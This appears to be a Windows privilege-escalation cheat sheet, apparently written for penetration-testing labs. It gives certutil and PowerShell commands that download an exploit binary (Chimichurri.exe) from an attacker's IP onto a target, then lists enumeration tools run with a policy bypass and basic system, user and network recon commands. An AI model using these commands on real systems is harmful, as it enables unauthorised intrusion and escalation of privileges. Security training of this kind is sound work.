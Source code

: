 
#### Useful Commands to get Files onto Windows Systems
- `certutil -url -f "http://<Your VPN IP>/<File your trying to get on the system>" "<name of file to be downloaded>"`
  - Example: `certutil -url -f http://10.10.1.1/Chimichurri.exe chim.exe`
- `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<VPN IP>:<PORT>/<File You want>', '<name of file to be downloaded & Path>"`
  - Example: `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.50:2222/Chimichurri.exe', 'C:\Users\Public\Downloads\Chimichurri.exe')"`

#### Enumeration scripts
- General scans
  - `winPEAS.exe`
  - `windows-privesc-check2.exe`
  - `Seatbelt.exe -group=all`
  - `powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"`
  - `Powerless.bat`
  - `winPEAS.bat`

#### Windows Shell Enumeration Commands
- Windows System Enumeration
  - `systeminfo`
  - `systeminfo | findstr /b /C:"OS Name" /C:"OS Version" /C:"System Type"`
  - `wmic qfe`
    - Gives the patch information, lets you know what has been patched when
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
    - Gives specific information thats more dense
  - `wmic logicaldisk get caption,description,providername`
    - Gives systems drive information

- Windows User Enumeration
  - `whoami`
    - Tells you who you are
  - `whoami /priv`
    - Tells you what Privileges you have
  - `whoami /groups`
    - Tells you what privs you have for your group
  - `net user`
    - tells you what users you are
  - `net user <USER NAME>`
    - tells you what information about that user
    - Can tell you what groups or different information
  - `net localgroup`
    - Tells you what groups there are
  - `net localgroup <Group Name>`
    - example net localgroup guest

- Windows Network Enumeration
  - `ipconfig`
  - `ipconfig /all`
  - `arp -a`
  - `route print`
    - Show Routing Table on Windows
  - `netstat -ano`
    - network utility that displays network  connections for Transmission Control Protocol, routing tables, and a  number of network interface and network protocol statistics
